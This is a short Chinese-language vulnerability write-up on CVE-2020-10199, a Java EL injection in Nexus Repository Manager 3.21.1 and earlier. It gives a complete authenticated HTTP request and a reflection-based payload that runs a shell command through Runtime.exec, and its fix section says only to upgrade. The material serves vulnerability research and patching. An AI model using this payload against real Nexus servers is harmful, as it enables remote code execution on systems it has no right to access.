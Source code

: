 ### 一 漏洞描述
Nexus 是一个 Maven 的仓库管理系统，它提供了强大的仓库管理、构件搜索等功能，并且可以用来搭建 Maven 仓库私服，在代理远程仓库的同时维护本地仓库，以节省带宽和时间。  
在 Nexus Repository Manager OSS/Pro 3.21.1 及之前的版本中，经过授权认证的攻击者，可以通过 JavaEL 表达式注入造成远程代码执行，获取系统权限。

3月31日的时候Nexus Repository Manager官方发布了CVE-2020-10199，CVE-2020-10204的漏洞公告，两个漏洞均是由Github Secutiry Lab的@pwntester发现的。    
其中CVE-2020-10199在获取到管理员权限后，即可进行远程命令执行。

Nexus Repository Manager OSS/PRo <=3.21.1

### 二 漏洞利用
```
POST /service/rest/beta/repositories/go/group HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 203
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.7886248393834028
Content-Type: application/json
Accept: */*
Origin: http://127.0.0.1:8081
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: http://127.0.0.1:8081/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: NX-ANTI-CSRF-TOKEN=0.7886248393834028; NXSESSIONID=cedf848f-d881-4b58-ac24-9e9c3ece40bc
Connection: close

{
  "name": "internal",
  "online": true,
  "storage": {
    "blobStoreName": "default",
    "strictContentTypeValidation": true
  },
  "group": {
    "memberNames": ["$\\A{233*233*233}"]
  }
}
```
其中NXSESSIONID需要更换为账户登录成功之后的ID，该ID存在与Cookie中。  

执行命令payload
`$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch tmp/233')}`

三 漏洞修复
升级

> 参考链接  
> https://www.modb.pro/db/75743
